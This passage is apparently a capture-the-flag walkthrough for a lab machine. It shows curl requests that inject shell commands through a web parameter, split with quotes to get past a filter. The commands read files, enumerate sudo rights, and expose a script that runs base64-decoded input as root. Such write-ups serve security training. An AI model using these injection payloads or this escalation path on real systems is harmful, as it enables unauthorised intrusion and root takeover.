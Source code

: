 ```
root@kali# curl "10.10.10.69/sync?opt=' c''at /home/FluxCapacitorIn''c/us''er.txt'"
[redacted]
bash: -c: option requires an argument

```

## Get a shell?

Try a shell:

```

root@kali# curl "10.10.10.69/sync?opt=' whi''ch pytho''n'"
bash: -c: option requires an argument

root@kali# curl "10.10.10.69/sync?opt=' whi''ch pytho''n3'"
/usr/bin/python3
bash: -c: option requires an argument

```

## Give up on Shell, privesc through web

Can find python3, but pipe gets blocked, and i can’t write even to tmp. Getting a shell seems hard.

Since I can’t get LinEnum up on the box, think about the things it typically finds. sudo is a good place to start:

```

root@kali# curl "10.10.10.69/sync?opt=' su''do -l'"
Matching Defaults entries for nobody on fluxcapacitor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nobody may run the following commands on fluxcapacitor:
    (ALL) ALL
    (root) NOPASSWD: /home/themiddle/.monit
bash: -c: option requires an argument

root@kali# curl "10.10.10.69/sync?opt=' c''at /home/themiddle/.monit'"
#!/bin/bash

if [ "$1" == "cmd" ]; then
        echo "Trying to execute ${2}"
        CMD=$(echo -n ${2} | base64 -d)
        bash -c "$CMD"
fi
bash: -c: option requires an argument

```

So it looks like the current user can run `sudo /home/themiddle/.monit cmd [base64 string]`, and that base64 string will be decodeed and run as root!

